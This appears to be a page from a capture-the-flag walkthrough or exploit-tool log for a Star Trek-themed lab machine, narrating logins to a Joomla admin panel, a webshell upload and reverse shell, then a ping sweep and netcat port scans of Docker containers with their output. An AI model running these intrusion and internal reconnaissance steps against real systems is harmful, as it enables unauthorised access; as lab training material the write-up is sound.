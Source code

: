 `[+]` Internal IP Leaked: **172.17.0.3**. I want to do a ping sweep after I get in.

`[+]` Logged in as `guinan` to **/**.

`[-]` No access to **/administrator**

`[+]` Logged in as `geordi.la.forge` to **/administrator**. Uploading webshell.

`[+]` Jumped to a reverse TCP shell.

`[-]` We are inside of Docker container

`[*]` **/home/user.txt**:
```
As you take a look around at your surroundings you realise there is something wrong.
This is not the Enterprise!
As you try to interact with a console it dawns on you.
Your in the Holodeck!
```
`[+]` Doing ping sweep:
```
www-data@a7018bfdc454:/var/www/html$ for x in $(seq 1 255); do ping -W 1 -c 1 172.17.0.$x | grep from; done
64 bytes from 172.17.0.1: icmp_seq=0 ttl=64 time=0.081 ms
64 bytes from 172.17.0.2: icmp_seq=0 ttl=64 time=0.292 ms
64 bytes from 172.17.0.3: icmp_seq=0 ttl=64 time=0.081 ms
64 bytes from 172.17.0.4: icmp_seq=0 ttl=64 time=0.181 ms
```
`[*]` There are 4 hosts.
```
www-data@a7018bfdc454:/var/www/html$ ./nc -vz 172.17.0.1 1-65535 2>/dev/stdout
172.17.0.1 22 (ssh) open
172.17.0.1 80 (http) open
172.17.0.1 443 (https) open
172.17.0.1 5355 (hostmon) open
172.17.0.1 8080 (http-alt) open
172.17.0.1 32812 open
```
`[*]` **172.17.0.1** seems to be a host
```
www-data@a7018bfdc454:/var/www/html$ ./nc -vz 172.17.0.2 1-65535 2>/dev/stdout
mysql [172.17.0.2] 3306 (mysql) open
```
`[*]` **172.17.0.2** is a MySQL container (`15af95635b7d`)
```
www-data@a7018bfdc454:/var/www/html$ ./nc -vz 172.17.0.3 1-65535 2>/dev/stdout
a7018bfdc454 [172.17.0.3] 80 (http) open
```
`[*]` **172.17.0.3** is a Joomla container. We are here. (`a7018bfdc454`)
```
www-data@a7018bfdc454:/var/www/html$ ./nc -vz 172.17.0.4 1-65535 2>/dev/stdout
172.17.0.4 80 (http) open
```
`[*]` **172.17.0.4** is a WordPress container (`b8319d86d21e`)

`[+]` Checking what's mounted there.
```
www-data@a7018bfdc454:/var/www/html$ mount -l
/dev/mapper/enterprise--vg-root on /etc/resolv.conf type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/mapper/enterprise--vg-root on /etc/hostname type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/mapper/enterprise--vg-root on /etc/hosts type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/mapper/enterprise--vg-root on /var/www/html type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/mapper/enterprise--vg-root on /var/www/html/files type ext4 (rw,relatime,errors=remount-ro,data=ordered)
```